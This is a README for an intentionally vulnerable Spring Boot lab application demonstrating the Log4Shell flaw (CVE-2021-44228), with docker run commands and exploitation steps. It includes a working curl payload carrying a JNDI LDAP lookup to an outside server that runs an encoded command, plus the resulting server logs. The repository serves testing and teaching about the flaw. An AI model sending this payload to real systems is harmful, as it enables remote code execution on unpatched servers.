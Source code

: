# Log4Shell vulnerable application (CVE-2021-44228)

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228, known as [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses 
* `log-4j-core:2.14.1` (through `spring-boot-starter-log4j2`) and
* `openjdk:8u181`

## Running the application

Run it:

```bash
docker run --name vulnerable-app --rm -p 8080:8080 romanutti/log4shell-vulnerable-app
```

Or alternatively, build it yourself:

```bash
docker build . -t vulnerable-app
docker run -p 8080:8080 --name vulnerable-app --rm vulnerable-app
```

## Exploitation steps

*Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). **Run at your own risk, preferably in a VM in a sandbox environment**.*

* Trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'user: ${jndi:ldap://192.168.1.4:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

* Notice the warning in the server logs, that indicates that a JNDI lookup was tried:

```
2021-12-31 21:28:40.508  INFO 1 --- [           main] c.r.l.v.VulnerableApplication            : Started VulnerableApplication in 3.581 seconds (JVM running for 5.01)
2021-12-31 21:39:21.180  INFO 1 --- [nio-8080-exec-1] o.a.c.c.C.[.[.[/]                        : Initializing Spring DispatcherServlet 'dispatcherServlet'
2021-12-31 21:39:21.180  INFO 1 --- [nio-8080-exec-1] o.s.w.s.DispatcherServlet                : Initializing Servlet 'dispatcherServlet'
2021-12-31 21:39:21.181  INFO 1 --- [nio-8080-exec-1] o.s.w.s.DispatcherServlet                : Completed initialization in 1 ms
2021-12-31 21:39:22,308 http-nio-8080-exec-1 WARN Error looking up JNDI resource [ldap://192.168.1.4:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=]. javax.naming.CommunicationException: 192.168.1.4:1389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
        at com.sun.jndi.ldap.Connection.<init>(Connection.java:238)
        at com.sun.jndi.ldap.LdapClient.<init>(LdapClient.java:137)
```

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/

